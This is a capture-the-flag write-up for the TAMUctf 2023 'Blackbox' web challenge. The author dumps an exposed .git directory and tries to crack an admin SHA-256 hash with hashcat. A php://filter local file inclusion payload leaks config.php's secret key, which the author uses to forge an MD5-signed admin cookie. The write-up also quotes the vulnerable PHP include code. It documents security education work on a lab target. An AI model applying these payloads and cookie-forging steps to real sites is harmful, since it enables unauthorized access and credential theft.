

# Blackbox (TAMUctf 2023)

## Challenge

Author: Mr. Blade

I took a survey to find our dev's least favorite type of web challenge. The results of my survey showed that blackbox web is by far the most frustrating type of web challenge. Let's see what your opinion of it is.

NOTE: flag format for this challenge is tamuctf{...}

[http://blackbox.tamuctf.com](http://blackbox.tamuctf.com/)

## Solution

### Basic Enumeration

First of all, by just taking a look at the site, we can see that it’s possible to access two pages by normal navigation:

- [http://blackbox.tamuctf.com/?page=home](http://blackbox.tamuctf.com/?page=home)
- [http://blackbox.tamuctf.com/?page=login](http://blackbox.tamuctf.com/?page=login)

By looking at the URLs, a classic LFI seems possible, let’s save this thought for later.

Looking at some HTTP response, we can confirm that the server uses PHP:



Accessing the login page, we’ve got the following cookie set:

```
auth_token=eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ%3D%3D.6b2b186e8229347709a34e09c7c5b81f
```

If you pay attention to it, the value has 2 parts, the first one looks like a base64 ("%3D" is “=” URL encoded), and the second one looks like some kind of hash. Let’s confirm this two hypothesis:

```bash
echo eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ== | base64 -d
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```


Alright, it’s a JSON object with user information base64 encoded followed by a MD5 hash (likely).

Looking at source code on browser, we find nothing interesting, just a normal form on login’s page that sends a POST request.

Enumerating robots.txt and .htaccess, we find out that it doesn’t have the second one, but the robots file is giving us a powerful hint:

```bash
User-agent: *
Disallow: /.git/
```

Great! Enumeration done, let’s begin the exploration.

### Dumping git information and analysing it

I used [git-dumper](https://github.com/arthaud/git-dumper) to download all the information present in [http://blackbox.tamuctf.com/.git](http://blackbox.tamuctf.com/.git):

```bash
git-dumper http://blackbox.tamuctf.com/.git .
```

By doing that, we discover that it has source code, transforming this into a whitebox challenge after all.

We just have one commit, so there is no information overwritten between commits.


Exploring the files, he find so much important information:

- **config.php** is on .gitignore, so we can’t see the source of this specific file right now
- There is an **admin.php** file that includes our desired flag
- In **util.php** we have the core logic of the back end, we can see important functions like **try_auth**, **generate_admin_token** and **is_admin**, for example.
- There is an sqlite3 database file in **sqlite/site-data.db**

First, let’s take a look into this sqlite database, that certainly draw my attention.


Great, so we have 1 entry in the users table, and it’s an admin account!

```
username: admin
password hash: 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
key: 26ceb685f46e6d22
```

This gadget in util.php tell us that this password is SHA-256 encrypted:

```php
function try_auth(string $username, string $password) {
  $hash_password = hash('sha256', $password);
  return db_login($username, $hash_password)->fetchArray();
}
```

It’s possible to try bruteforcing into this account. Even though I think that it's not intended to solve using this method, I keep the following commands running just in case, while I was searching for other hints.

```bash
hashcat -a 0 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0 /usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
```

Spoiler: I didn’t break the hash.

Next thing to do is figure out how the cookie **auth_token** is made, so we can forge our own admin session :)

### Forging the first part of admin's auth_token

Alright, remember that the base64 object was:

```json
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```

With the new pieces of information we’ve got, we can make it into:

```json
{"username":"admin","user_key":"26ceb685f46e6d22","admin":true}
eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

However, trying to set a new cookie with this base64 encoded, with the subsequential hash unmodified doesn’t do the job unfortunately.

### Forging the second part of admin's auth_token

Reading again the util.php, this function tells us how to do it:

```php
function generate_token(array $data) {
  $b64json = base64_encode(json_encode($data));
  $hmac = hash('md5', SECRET_KEY . $b64json);

  return $b64json . '.' . $hmac;
}
```

Basically, the second part of the cookie is indeed a MD5 hash, and it’s composed by the md5sum of the base64 that we’ve just made plus a salt on the beginning (a **SECRET_KEY**, that we can’t find hardcoded in the files we have).

Ok, the next step is find out this SECRET_KEY somehow. 

If you rewind, there is one more file in this project, that we can’t see, and it is the **config.php**. Knowing that, I immediately tried some way to exploit the possible LFI on [http://blackbox.tamuctf.com/?page=](http://blackbox.tamuctf.com/?page=). Let’s verify on **index.php** code:

```php
if(isset($_GET['page'])) {
  $resource = $_GET['page'];
  include($_GET['page'] . '.php');
} else {
  include('home.php');
}
```

We have this include function, that is indeed vulnerable to LFI attacks. Note that it’s concatenating .php at the end, so it’s restricting what we can do.

First I tried [http://blackbox.tamuctf.com/?page=config](http://blackbox.tamuctf.com/?page=config), but it’s no use. At least by doing that we discover that our desired constant is present on the file.


So let’s try php filters with the path it was giving to us.

```
php://filter/convert.base64-encode/resource=file:///var/www/html/config
```


After decoding:

```php
<?php
const APP_NAME = 'Blackbox';
const INCLUDE_DIR = './templates/';
const DB_FILE = '../sqlite/site-data.db';
const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';
?>
```

Excelent! Finally we can forge the cookie’s hash.

- Concatenating the secret key with the base64:

```php
JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

- Calculating it’s md5:

```
58fed7114a165282749650cf5458d31f
```

- Merging everything:

```
auth_token=eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9.58fed7114a165282749650cf5458d31f
```

- Updating the cookie and refreshing the login page:


We are redirected to admin’s page.


<aside>
⛳ The flag: tamuctf{my_f4v0rit4_7yp3_0f_w3b_ch4113ng3}

</aside>